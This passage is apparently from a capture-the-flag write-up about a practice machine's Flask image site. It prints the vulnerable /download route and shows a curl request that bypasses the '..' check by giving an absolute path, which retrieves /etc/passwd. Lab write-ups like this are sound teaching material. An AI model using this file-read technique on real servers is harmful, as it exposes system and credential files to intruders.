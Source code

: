 ### Source Code

We get the source code for the `beta` site in here. What I really dug into is the two python files: `app.py` and `tool.py`.

The `app.py` is a python file for a Flask server. We can see the routes defined for the `beta` site are : `/resize`, `/convert`, `/source`, `/download`, and `/list`. The `tools.py` file is imported in the `app.py file` and is used to convert the image files.\
We can upload image files (`jpg` and `png`) that get resized and the python has a few checks to verify the files. Having the source code let's us dig through and find a way to exploit the upload/download/convert process.

### Download method abuse

The `download` section is interesting:\


```python
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

We can send a `POST` request to the `/download` endpoint using `form` encoding and if all checks are passed, we are sent that file's contents back. Here are the Flask pages on the command used: [send\_file](https://tedboy.github.io/flask/generated/flask.send\_file.html).\
For LFI we can do path traversal using `../..` since we usually need to navigate out of the web root directory. Unfortunately, that is part of the app's `if` statements to prevent that. That doesn't stop us though as the `download` method actually let's us specify the absolute path of the file. For example we can take a common file like `/etc/passwd`, set it to the parameter `image`, and retrieve that file.

We can achieve this using `curl`:

```console
toasty@parrot$ curl -s -d "image=/etc/passwd" http://beta.only4you.htb/download | sort
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
games:x:5:60:games:/usr/games:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
...SNIP
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```
